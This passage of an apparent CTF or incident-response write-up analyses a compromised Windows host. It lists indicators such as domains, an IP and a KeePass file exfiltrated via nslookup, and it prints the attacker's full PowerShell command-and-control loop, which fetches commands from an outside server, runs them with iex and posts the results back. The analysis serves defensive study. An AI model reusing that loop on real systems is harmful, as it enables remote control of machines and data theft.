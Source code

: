 Upon analyzing, the first few events seem to be a executing powershell script that is making requests to a specific server, executing code received from that server, and sending the output back to the server. Using the same output above, lets list down some vital information.

```
Domains: cdn.bpakcaging.xyz, files.bpakcaging.xyz
IP Address(es): 167.71.211.113
Executables: sb.exe, Seatbelt.exe, sq3.exe
Directories of interest: C:\\Users\\j.westcott\\Documents\\protected_data.kdbx
                         AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite       
Files of interest: protected_data.kdbx, plum.sqlite
```

Further analysis yields a file _**\<protected\_data.kdbx>**_ was converted into its byte (hex) representation, and was exfiltrated by appending its byte-data to a nslookup command towards a malicious IP 167\[.]71\[.]211\[.]113!&#x20;

## Network Traffic Analysis (They got us. Call the bank immediately)!

Now that we know some key indicators of compromise, we can get an idea of thee software used by the attacker to host its presumed file/payload server. In order for us to know this, we can use **tshark** in conjunction with **jq** to parse the _json-ified data_ exported from the provided _.pcap file_.

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption><p>It was a challenge to build the query for this, thankfully we have AIs now lol.</p></figcaption></figure>

Apache & Python were attributed to hosting the servers at "bpakcaging\[.]xyz", and as additional validation, we found that the suspicious executables were indeed hosted through a SimpleHTTP python server.

Furthermore, we were given a hint in one of the powershell execution command event logs on how communication is with the malicious domain.

<pre><code>$s='cdn.bpakcaging.xyz:8080';
$i='8cce49b0-b86459bb-27fe2489';
$p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};
while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;
<strong>if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;
</strong>$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"}
</code></pre>
